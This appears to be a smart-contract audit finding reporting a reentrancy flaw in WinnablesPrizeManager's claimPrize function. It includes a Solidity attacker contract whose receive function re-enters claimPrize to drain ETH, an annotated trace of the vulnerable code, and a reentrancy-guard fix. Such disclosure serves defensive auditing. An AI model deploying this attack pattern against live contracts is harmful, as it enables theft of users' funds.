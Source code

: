 Handsome Umber Dragonfly

High

# Reentrancy attack in WinnablesPrizeManager::claimPrize()

## Summary

The claimPrize function in the WinnablesPrizeManager is vulnerable to a reentrancy attack in the case of an ETH raffle. The vulnerability allows an attacker to repeatedly call the claimPrize function before the contract updates the RafflePrizeStatus.CLAIMED, potentially leading to the unauthorized withdrawal of funds.

## Vulnerability Detail

The vulnerability arises because the claimPrize function calls _sendETHPrize, which transfers ETH to the caller using call{value: amount}. This external call allows the recipient (an attacker contract) to re-enter the claimPrize function before the state variables RafflePrizeStatus.CLAIMED is updated. As a result, an attacker can repeatedly claim the prize and drain the contract's funds.

The key issues are:

The ETH transfer occurs before the state variables are updated to reflect that the prize has been claimed.
An attacker can exploit this by deploying a malicious contract with a receive function that calls claimPrize again, recursively withdrawing ETH.

## Impact

If exploited, the attacker can drain the contract of its ETH balance, causing significant financial loss. The impact is high, as the contract's entire ETH balance can be stolen through this reentrancy attack.

## Code Snippet

Let's say that we have two ETH raffles: 
       Raffle A:
       The amount of eth locked is = _ethRaffles[raffleId] = 10ETH
        The winner is the address: 0x001
            unchecked { _ethLocked -= _ethRaffles[raffleId]; } 
       Raffle B:
       The amount of eth locked is = _ethRaffles[raffleId] = 12ETH
        The winner is the address: 0x002

noticing that the amount of _ethRaffles[raffleId] is being deducted from _ethLocked which contains in this case 22ETH
let's say the the winner of the raffle A is a malicious contract and he call the claimPrize function

0x001 contract : 
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./WinnablesPrizeManager .sol";

contract AttackerContract {
    RaffleContract private raffleContract;
    uint256 private targetRaffleId;

    constructor(address raffleContractAddress) {
        raffleContract = RaffleContract(payable(raffleContractAddress));
    }

    // Function to attack the raffle contract
    function attack(uint256 raffleId) external {
        targetRaffleId = raffleId;
        raffleContract.claimPrize(raffleId);
    }

   // Receive function to trigger reentrancy when plain ETH is sent
    receive() external payable {
        if (address(raffleContract).balance > 0) {
            raffleContract.claimPrize(targetRaffleId);
        }
    }

    function MyBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
   
```
here is a the flow of the values of the function claimPrize
```
function claimPrize(uint256 raffleId) external {
        RafflePrize storage rafflePrize = _rafflePrize[raffleId]; ==> raffle A
        RaffleType raffleType = rafflePrize.raffleType; ==> raflleType ==> ETH
        
        if (raffleType == RaffleType.NFT) { 
            NFTInfo storage raffle = _nftRaffles[raffleId];
            _nftLocked[raffle.contractAddress][raffle.tokenId] = false;
            _sendNFTPrize(raffle.contractAddress, raffle.tokenId, msg.sender);
        } 
        else if (raffleType == RaffleType.TOKEN) {
            TokenInfo storage raffle = _tokenRaffles[raffleId];
            unchecked { _tokensLocked[raffle.tokenAddress] -= raffle.amount; }
            _sendTokenPrize(raffle.tokenAddress, raffle.amount, msg.sender);
        } 
        else if (raffleType == RaffleType.ETH) { ==> True
            unchecked { _ethLocked -= _ethRaffles[raffleId]; } ==> 22 - 10 = 12
            _sendETHPrize(_ethRaffles[raffleId], msg.sender); ==> the function _sendETHPrize described below will send the ETH to the contract
            when receiving the eth, the contract will another time the claimePrize and be able to withraw another 10eth from the contract 
        } 
        else revert InvalidRaffle();
        if (msg.sender != rafflePrize.winner) revert UnauthorizedToClaim();
        if (rafflePrize.status == RafflePrizeStatus.CLAIMED) revert AlreadyClaimed();
        rafflePrize.status = RafflePrizeStatus.CLAIMED;
        emit PrizeClaimed(raffleId, msg.sender);
    }
  function _sendETHPrize(uint256 amount, address winner) internal {
        (bool success, ) = winner.call{ value: amount }("");
        if (!success) revert ETHTransferFail();
    }
```
## Tool used
Remix

## Recommendation
Implement a reentrancy guard (e.g., using OpenZeppelin's ReentrancyGuard modifier) to prevent reentrant calls to the claimPrize function.